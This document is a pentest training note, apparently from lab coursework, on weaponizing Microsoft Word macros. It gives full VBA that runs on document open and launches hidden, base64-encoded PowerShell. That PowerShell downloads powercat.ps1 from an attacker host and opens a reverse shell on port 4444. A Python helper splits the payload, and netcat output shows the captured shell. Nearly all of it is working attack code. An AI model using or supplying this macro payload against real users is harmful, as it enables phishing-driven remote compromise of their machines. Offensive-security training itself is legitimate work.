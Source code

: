 ### Leveraging Microsoft Word Macros 

Create a word doc `mymacro.doc`
`.doc` or `.docm` to save the macro

Click _View_ then _Macros_

Enter Macro name:
`MyMacro`

Macros in:
`mymacro (document)`

Click _Create_

Macro opening powershell.exe

```
Sub MyMacro()

  CreateObject("Wscript.Shell").Run "powershell"
  
End Sub
```

Macro automatically executing powershell.exe after opening the Document

```
Sub AutoOpen()

  MyMacro
  
End Sub

Sub Document_Open()

  MyMacro
  
End Sub

Sub MyMacro()

  CreateObject("Wscript.Shell").Run "powershell"
  
End Sub
```

Save macro and close the document. 

When document is re-opened, should get SECURITY WARNING. 

Click _Enable Content_ and the PowerShell window should open.

Using macros to get a reverse shell with #PowerCat 

Note: VBA has 255 character limit so need to split commands into multiple lines and concatenate them.

Declaring a string variable and provide it as a parameter

```
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    CreateObject("Wscript.Shell").Run Str
End Sub
```

PowerShell download cradle and PowerCat reverse shell

```
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell
```

Base64 encode this command then...


Use this Python script to split the base64 encoded PowerShell command string

```
str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwA..."

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```

After this, update the macro.

Macro invoking PowerShell to create a reverse shell:

```
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
        Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
        Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
    ...
        Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
        Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
        Str = Str + "A== "

    CreateObject("Wscript.Shell").Run Str
End Sub
```

Save and close document. Start netcat listener on port 4444. Reopen the document. 

Reverse shell from Word macro:

```hlt:9
kali@kali:~$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.119.2] from (UNKNOWN) [192.168.50.196] 49768
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Users\offsec\Documents>
```

